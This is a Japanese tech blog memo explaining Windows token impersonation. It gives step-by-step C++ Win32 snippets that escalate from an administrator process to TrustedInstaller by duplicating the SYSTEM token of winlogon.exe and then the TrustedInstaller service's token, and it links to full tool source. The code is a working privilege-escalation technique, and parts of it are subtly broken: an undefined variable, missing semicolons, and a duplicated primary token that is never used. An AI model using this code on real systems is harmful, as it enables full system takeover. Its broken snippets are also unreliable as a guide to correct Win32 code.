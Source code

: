 ```yaml
---
title: "トークン偽装(窃取)攻撃の仕組みとコード"
emoji: "🖥️"
type: "tech" # tech: 技術記事 / idea: アイデア
topics: ["セキュリティ", "windows", "cpp"]
published: true
---
```


トークン偽装(窃取)攻撃について実際のコードと一緒に備忘録として残します。
Windowsにはプロセスのアクセス管理の仕組みとしてアクセストークンという手法を用いています。
各プロセスにはアクセス権限情報を持ったアクセストークンが割り当てられており、対応する権限があれば複製をすることができます。
トークン偽装攻撃は自プロセスよりも高い権限が付与されたアクセストークンを複製し、
起動するプロセスに割り当てることでWindowsの最高権限であるTrustedInstallerに昇格することを指します。
以下コードはすべてC++で、呼んでいる関数は明記しない限りすべてWin32 APIのものになります。

## 前提条件

偽装トークンを作成することができるSeImpersonatePrivilege特権が必要です。
Administratorグループのユーザーなら保持しています。

## 用語の解説

### プライマリアクセストークン

ユーザーの権限(セキュリティコンテキスト)が記録されたトークン。
ユーザーが起動するプロセスはプライマリアクセストークンが継承されて付与されます。

### 　偽装トークン

Windowsには仕様として他のユーザーのセキュリティコンテキストを持ったトークンを利用してスレッドを実行することができる機能が提供されています。
これを偽装トークンと呼びます。
偽装トークンを用いることでアクセス制御の処理を簡略することができます。
たとえば、ファイルサーバーがクライアントに対してファイルのアクセス権限をチェックする場合を考えます。
クライアントのセキュリティコンテキストを取得してアクセス権限のチェックを行うよりも、
クライアントのアクセストークンを偽装トークンとして複製してからそのファイルにアクセスすればアクセス権限のチェックをWindowsに委譲することができます。
こうすることで、サーバープログラムはWindowsのアクセス制御の仕組みの変更に対して強くなります。

以下にさらに詳しく説明されています。
<https://blog.nflabs.jp/entry/2021/12/20/094644>
<https://github.com/windows-internals-guide/security/blob/57920913cfe745baf728aa488efa7a5e43dad069/7.4.2.d_%E5%81%BD%E8%A3%85.MD>
<https://github.com/windows-internals-guide/security/blob/57920913cfe745baf728aa488efa7a5e43dad069/7.6.3_%E5%BC%B7%E5%8A%9B%E3%81%AA%E7%89%B9%E6%A8%A9.MD>

## 昇格までの流れ

1. winlogon.exeのアクセストークンを複製
1. 現在のスレッドに複製したwinlogon.exeの偽装トークンを付与
1. TrustedInstallerサービスの起動
1. TrustedInstaller.exeからプライマリトークンを複製
1. TrustedInstaller権限でプロセスを起動する

## 1. winlogon.exeのアクセストークンを複製

Windowsのログオン機能をつかさどるwinlogon.exeはSYSTEM権限で起動されています。
そのため、winlogon.exeにはSYSTEM権限のアクセストークンが紐づけられています。
以下関数を利用してwinlogon.exeのアクセストークンを偽装トークン(TokenImpersonation)としてコピーします。

```cpp
// winlogon.exeのプロセスのハンドルを取得。(pidはwinlogon.exeのプロセスID)
HANDLE hProcessWinlogon = OpenProcess(PROCESS_QUERY_INFORMATION, TRUE, pid);
// winlogon.exeのプロセスハンドルからアクセストークンのハンドルを取得
HANDLE hTokenWinlogon;
OpenProcessToken(hProcessWinlogon, TOKEN_ASSIGN_PRIMARY | TOKEN_DUPLICATE | TOKEN_IMPERSONATE | TOKEN_QUERY, &hTokenWinlogon); 
//DuplicateProcessToken関数を使用してして偽装トークンとして複製し、ハンドルを取得。
HANDLE hImpersonationToken;
DuplicateTokenEx(hTokenWinlogon, MAXIMUM_ALLOWED, NULL, SecurityImpersonation, TOKEN_TYPE::TokenImpersonation, &hImpersonationToken)
```

:::message
関数のリファレンス

OpenProcess
<https://learn.microsoft.com/ja-jp/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess>
OpenProcessToken
<https://learn.microsoft.com/ja-jp/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocesstoken>
DuplicateTokenEx
<https://learn.microsoft.com/ja-jp/windows/win32/api/securitybaseapi/nf-securitybaseapi-duplicatetokenex>
:::

## 2. 現在のスレッドに複製したwinlogon.exeの偽装トークンを付与

後述するTrustedInstallerサービスを起動するために、複製したSYSTEM権限を持つ偽装トークンを自スレッドに割り当てることでをSYSTEM権限に昇格させます。

```cpp
 // 現在のプロセスのハンドルを取得
 HANDLE hCurrentThread = GetCurrentThread();
 // 複製したアクセストークンを現在のスレッドに割り当てる。
 // hImpersonationTokenには前項で複製したwinlogin.exeのアクセストークンのハンドルが入る
 SetThreadToken(&hCurrentThread, hImpersonationToken);
```

:::message
関数のリファレンス

GetCurrentThread
<https://learn.microsoft.com/ja-jp/windows/win32/api/processthreadsapi/nf-processthreadsapi-getcurrentthread>
SetThreadToken
<https://learn.microsoft.com/ja-jp/windows/win32/api/processthreadsapi/nf-processthreadsapi-setthreadtoken>
:::

## 3. TrustedInstallerサービスの起動

TrustedInstallerに昇格するにはTrustedInstaller権限のアクセストークンが付与されているプロセスが必要です。
WindowsのTrustedInstallerサービスはSYSTEM権限で起動することができ、そのプロセスのアクセストークンにはTrustedInstallerの権限が付与されています。

```cpp
// TrustedInstaller サービスの起動
SC_HANDLE hTrustedInstallerService = OpenServiceW(OpenSCManagerW(NULL, NULL, SC_MANAGER_ALL_ACCESS), L"trustedinstaller", MAXIMUM_ALLOWED);
SERVICE_STATUS_PROCESS lpBuffer = {};
DWORD pcbBytesNeeded;
// サービスの状況を問い合わせ。lpBufferにサービス情報が入り、lpBuffer.dwProcessIdにプロセスIDが格納される。
QueryServiceStatusEx(hTrustedInstallerService, SC_STATUS_PROCESS_INFO, (BYTE*)&lpBuffer, sizeof(ssp), &pcbBytesNeeded)
```

## 4. TrustedInstaller.exeからプライマリトークンを複製

起動したTrustedInstaller.exeからプライマリアクセストークンを複製します。

```cpp
// 前項の処理でlpBuffer.dwProcessIdはTrustedInstaller.exeのプロセスIDを保持しています。
HANDLE hProcessTrustedInstaller = OpenProcess(PROCESS_QUERY_INFORMATION, TRUE, lpBuffer.dwProcessId);
// TrustedInstaller.exeのアクセストークン 
HANDLE hTruestedInstallerToken;
OpenProcessToken(hProcessTrustedInstaller, TOKEN_ASSIGN_PRIMARY | TOKEN_DUPLICATE | TOKEN_IMPERSONATE | TOKEN_QUERY, &hTruestedInstallerToken); 
// 複製するプライマリトークン
HANDLE hPrimaryToken;
DuplicateTokenEx(hTruestedInstallerToken, MAXIMUM_ALLOWED, NULL, SecurityImpersonation, TOKEN_TYPE::TokenPrimary, &hPrimaryToken)
```

:::message
関数のリファレンス
OpenServiceW
<https://learn.microsoft.com/ja-jp/windows/win32/api/winsvc/nf-winsvc-openservicew>
OpenSCManagerW
<https://learn.microsoft.com/ja-jp/windows/win32/api/winsvc/nf-winsvc-openscmanagerw>
QueryServiceStatusEx
<https://learn.microsoft.com/ja-jp/windows/win32/api/winsvc/nf-winsvc-queryservicestatusex>
:::

## 5. TrustedInstaller権限でプロセスを起動する

あとは作成するプロセスにTrustedInstallerのプライマリアクセストークンを付与することで、TrustedInstallerに昇格することができます。

```cpp
// コマンドプロンプト
const LPCWSTR targetExecutable = L"C:\\Windows\\System32\\cmd.exe";
STARTUPINFO si = {};
PROCESS_INFORMATION pi = {};
// コマンドプロンプトをTrustedInstaller権限のアクセストークンを付与して起動する。
// hTruestedInstallerToken前項で複製したTrustedinstaller.exeのプライマリアクセストークン
CreateProcessWithTokenW(hTruestedInstallerToken, LOGON_NETCREDENTIALS_ONLY, targetExecutable, NULL, CREATE_NEW_CONSOLE, NULL, NULL, &si, &pi);
```

:::message
関数のリファレンス
CreateProcessWithTokenW
<https://learn.microsoft.com/ja-jp/windows/win32/api/winbase/nf-winbase-createprocesswithtokenw>
:::

以下のようになれば成功です。
アカウント名が「dev」から「nt authority\system」になっています。
nt authority\systemはSYSTEMレベルの権限をもつ疑似ユーザーです。
![シェル起動の例](/images/c54054307260f7/image.png)

## まとめ

以上のプロセスでTrustedInstaller権限でプロセスを立ち上げることができます。
全体のソースコードは以下にあります。ダウンロードの際はセキュリティソフトに検知されますのでお気を付けください。
<https://github.com/takafumiokamoto/RunAsTrustedInstaller>

## 参考記事

こちらの記事はすごく詳しく詳細にまとめられています。
<https://devblog.lac.co.jp/entry/20220905>
<https://book.hacktricks.xyz/v/jp/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens>
<https://blog.nflabs.jp/entry/2021/12/20/094644>
また、実装にあたり以下リポジトリを参考にさせていただきました。
<https://github.com/wilszdev/GetTrustedInstallerShell>
